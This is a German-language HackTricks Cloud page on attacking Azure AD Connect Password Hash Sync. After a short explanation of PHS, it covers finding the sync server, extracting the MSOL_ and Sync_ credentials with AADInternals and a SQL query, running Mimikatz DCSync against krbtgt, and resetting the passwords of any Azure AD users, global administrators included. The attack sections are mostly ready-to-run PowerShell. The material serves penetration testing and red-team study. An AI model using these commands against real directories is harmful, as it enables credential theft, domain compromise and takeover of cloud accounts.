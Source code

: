 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password Hash Synchronization** ist eine der Anmeldemethoden, die verwendet wird, um hybride Identität zu erreichen. **Azure AD Connect** synchronisiert einen Hash, des Hashes, des Passworts eines Benutzers von einer lokalen Active Directory-Instanz zu einer cloudbasierten Azure AD-Instanz.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Es ist die **häufigste Methode**, die von Unternehmen verwendet wird, um ein lokales AD mit Azure AD zu synchronisieren.

Alle **Benutzer** und ein **Hash der Passwort-Hashes** werden vom lokalen AD zu Azure AD synchronisiert. Allerdings werden **Klartextpasswörter** oder die **ursprünglichen** **Hashes** nicht an Azure AD gesendet.\
Darüber hinaus werden **eingebaute** Sicherheitsgruppen (wie Domänenadministratoren...) **nicht mit** Azure AD synchronisiert.

Die **Hash-Synchronisation** erfolgt alle **2 Minuten**. Standardmäßig werden jedoch **Passwortablauf** und **Kontenablauf** **nicht synchronisiert** in Azure AD. Ein Benutzer, dessen **lokales Passwort abgelaufen ist** (nicht geändert), kann weiterhin **auf Azure-Ressourcen** mit dem alten Passwort zugreifen.

Wenn ein lokaler Benutzer auf eine Azure-Ressource zugreifen möchte, erfolgt die **Authentifizierung in Azure AD**.

**PHS** ist erforderlich für Funktionen wie **Identity Protection** und AAD-Domänendienste.

## Pivoting

Wenn PHS konfiguriert ist, werden einige **privilegierte Konten** automatisch **erstellt**:

* Das Konto **`MSOL_<installationID>`** wird automatisch im lokalen AD erstellt. Dieses Konto erhält eine **Directory Synchronization Accounts**-Rolle (siehe [Dokumentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), was bedeutet, dass es **Replikationsberechtigungen (DCSync) im lokalen AD** hat.
* Ein Konto **`Sync_<Name des lokalen ADConnect-Servers>_installationID`** wird in Azure AD erstellt. Dieses Konto kann das Passwort von **BELIEBIGEN Benutzern** (synchronisiert oder nur Cloud) in Azure AD zurücksetzen.

Die Passwörter der beiden vorherigen privilegierten Konten werden **in einem SQL-Server** auf dem Server gespeichert, auf dem **Azure AD Connect installiert ist.** Administratoren können die Passwörter dieser privilegierten Benutzer im Klartext extrahieren.\
Die Datenbank befindet sich in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es ist möglich, die Konfiguration aus einer der Tabellen zu extrahieren, wobei eine verschlüsselt ist:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **verschlüsselte Konfiguration** ist mit **DPAPI** verschlüsselt und enthält die **Passwörter des `MSOL_*`** Benutzers im lokalen AD und das Passwort von **Sync\_\*** in AzureAD. Daher ist es möglich, durch das Kompromittieren dieser Privilegien auf das AD und AzureAD zuzugreifen.

Sie finden eine [vollständige Übersicht darüber, wie diese Anmeldeinformationen gespeichert und entschlüsselt werden, in diesem Vortrag](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finden des **Azure AD Connect-Servers**

Wenn der **Server, auf dem Azure AD Connect installiert ist**, mit der Domäne verbunden ist (in den Dokumenten empfohlen), ist es möglich, ihn mit zu finden:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Missbrauch von MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Sie können auch [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) verwenden, um diese Anmeldeinformationen zu erhalten.
{% endhint %}

### Missbrauch von Sync\_\*

Durch das Kompromittieren des **`Sync_*`** Kontos ist es möglich, das **Passwort** eines beliebigen Benutzers (einschließlich globaler Administratoren) zurückzusetzen.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Es ist auch möglich, **die Passwörter nur von Cloud**-Benutzern zu **ändern** (auch wenn das unerwartet ist).
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Es ist auch möglich, das Passwort dieses Benutzers zu dumpen.

{% hint style="danger" %}
Eine weitere Option wäre, **privilegierte Berechtigungen für ein Dienstprinzipal zuzuweisen**, was der **Sync**-Benutzer **berechtigt** ist zu tun, und dann **auf dieses Dienstprinzipal zuzugreifen** als eine Möglichkeit der Privilegieneskalation.
{% endhint %}

### Nahtloses SSO

Es ist möglich, nahtloses SSO mit PHS zu verwenden, das anfällig für andere Missbräuche ist. Überprüfen Sie es in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
